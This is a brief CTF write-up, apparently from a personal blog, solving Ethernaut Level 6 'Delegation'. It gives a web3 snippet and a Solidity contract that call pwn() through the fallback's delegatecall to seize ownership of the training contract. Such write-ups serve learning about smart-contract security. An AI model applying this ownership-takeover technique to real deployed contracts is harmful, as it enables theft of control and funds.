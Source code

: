 +++
title = 'Ethernaut Level 6 - Delegation'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Trigger a fallback to win'
tags = [ 'writeups' , 'blockchain' ]
+++
1. With sendTransaction, we are able to trigger the fallback
2. Using abi.encodeFunctionSignature, we have the correct structure for delegateCall
```js
signature = web3.eth.abi.encodeFunctionSignature("pwn()");
await sendTransaction({from: player, to:contract.address, data: signature}); 
```

For some reason if we write a contract that does this, it sets `contract.owner` to the address of the attacking contract and not the player:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface Delegation { }

contract Hack {
    Delegation level6 = Delegation(0x8B659A31E6b5C62C6542FB5175b8cEa6D42A620e);

    function win() public {
        (bool success, ) = address(level6).call(abi.encodeWithSignature("pwn()"));
    }
}
```
